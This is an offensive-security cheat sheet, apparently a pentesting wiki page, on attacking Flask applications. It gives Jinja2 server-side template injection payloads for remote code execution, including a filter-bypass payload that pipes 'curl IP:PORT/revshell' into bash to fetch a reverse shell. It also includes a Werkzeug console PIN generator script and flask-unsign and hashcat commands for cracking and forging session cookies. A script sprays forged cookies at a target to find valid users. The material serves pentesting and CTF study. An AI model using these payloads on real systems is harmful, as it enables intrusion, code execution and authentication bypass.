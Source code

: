 ```yaml
---
description: A Python library for routing and hosting a website
---
```


# Flask

## Jinja2 Server-side Template Injection (SSTI)

Inject the Jinja2 templating language for when the `render_template_string()` function is used

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti" %}
HackTricks explaining exploitation in detail
{% endembed %}

### 1. Detect

```django
{{7*7}}
{{config}}
```

### 2. Find subclasses to use for RCE

```django
''.__class__.mro()[1].__subclasses__()
```

Then take the response and replace `,` with `\n` in Visual Studio Code to easily see the line number of the index.&#x20;

### 3. Use subclass for RCE

Find a vulnerable subclass and replace 42 with the index of it in the `__subclasses__()`

```django
'subprocess.Popen': {{''.__class__.mro()[1].__subclasses__()[42]('id',shell=True,stdout=-1).communicate()[0].strip()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

### Filter Bypass

{% embed url="https://jorianwoltjer.com/blog/post/ctf/cyber-apocalypse-2021/build-yourself-in" %}
Writeup of challenge where quotes (`'` & `"`) were blocked
{% endembed %}

```django
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()}}
```

## Console PIN

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

With a Local File Read vulnerability, one could leak the necessary 'private' information required to generate the PIN. From the console, you can then run any Python statement and get RCE with a Reverse Shell.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username, /etc/passwd
    'flask.app',  # always the same
    'Flask',  # always the same
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # The absolute path of app.py in the flask directory. If app.py doesn't work, try app.pyc
]

private_bits = [
    '279275995014060',  # MAC, /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # /etc/machine-id, /proc/sys/kernel/random/boot_id, /proc/self/cgroup
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## Session Cookie

If you have a `SECRET_KEY` of the Flask application, you can forge your own `session=` cookies. This can be useful to bypass authentication or even try injection attacks inside the session's parameters.&#x20;

### Brute-Force

{% code title="Install" %}
```
pip install flask-unsign
```
{% endcode %}

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ flask-unsign --wordlist /list/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiajByMmFuIn0.Yu6Z8A._RI4cQ2NSYW2epWYt-mR5cfkg0U' --no-literal-eval
</strong>[*] Session decodes to: {'logged_in': True, 'username': 'j0r2an'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
</code></pre>

You can also speed this up significantly using [#hashcat](../../cryptography/hashing/cracking-hashes.md#hashcat "mention"), as can crack and even automatically detect Flask Session Cookies.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ hashcat eyJsb2dnZWRfaW4iOmZhbHNlfQ.XD88aw.AhuKIwFPpzGDFLVbTcsmgEJu-s4 /list/rockyou.txt 
</strong>...
29100 | Flask Session Cookie ($salt.$salt.$pass) | Network Protocol

eyJsb2dnZWRfaW4iOmZhbHNlfQ.XD88aw.AhuKIwFPpzGDFLVbTcsmgEJu-s4:CHANGEME
</code></pre>

{% hint style="warning" %}
Note that I have not always had successful results with hashcat. If you run into "No hash-mode matches the structure of the input hash" errors, try `flask-unsign` or manually set up the HMAC signature for hashcat to crack (see [cracking-signatures.md](../../cryptography/hashing/cracking-signatures.md "mention") for some  similar examples)
{% endhint %}

### Forging Session

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
</strong>eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YvlBnA.yo-Ef_eiy_aeDBgBK-cQdcu-nRw
</code></pre>

{% hint style="warning" %}
**Tip**: When put in a script it might need the `--legacy` argument to get correct timestamps. This depends on the Flask version
{% endhint %}

#### Scripted Forging

Using a Python script you can automate this forging process to forge lots of values and find different responses. For example:

<details>

<summary>find_users.py</summary>

```python
from flask_unsign import session
from tqdm import tqdm
import requests

with open("/list/username.txt") as f:
    usernames = [l.strip() for l in f.readlines()]

SECRET_KEY = "secret123"

for username in tqdm(usernames):
    result = session.sign({'logged_in': True, 'username': username}, secret=SECRET_KEY, legacy=True)

    r = requests.get("http://10.10.11.160:5000/dashboard", cookies={"session": result}, allow_redirects=False)
    
    if r.status_code == 200:  # Found
        print("FOUND USER", username, result)
```

</details>

